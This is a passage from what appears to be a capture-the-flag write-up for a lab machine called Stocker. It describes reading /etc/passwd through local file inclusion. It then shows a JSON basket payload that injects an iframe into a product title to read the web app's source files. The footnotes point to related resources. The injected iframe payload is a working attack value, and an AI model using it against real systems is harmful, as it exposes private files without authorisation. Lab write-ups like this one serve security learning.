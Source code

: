 <img src="/assets/writeups/2023-06-19-stocker/etc_passwd.png" alt="LFI to get /etc/passwd">

There two logable users on this system: `root` and `angoose`. Notice the existence of a MongoDB user. This explains why did we manage to bypass authentication.

Let's try to get the app source code:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe width=800px height=800px src=/var/www/html/index.html></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```


[^1]: Through the `Server` header.
[^2]: I discovered it in the P&D group of my College. We've needed to configure two subdomains of a web-app, and, researching, i've found about it. Make sure to [check the project!](https://github.com/entr0pie/api-tamagochi/tree/docker-nginx)
[^3]: If you want a deep dive into how this works, make sure to check the [David Hamann article](https://davidhamann.de/2023/02/24/beware-of-wildcard-paths-sudo/).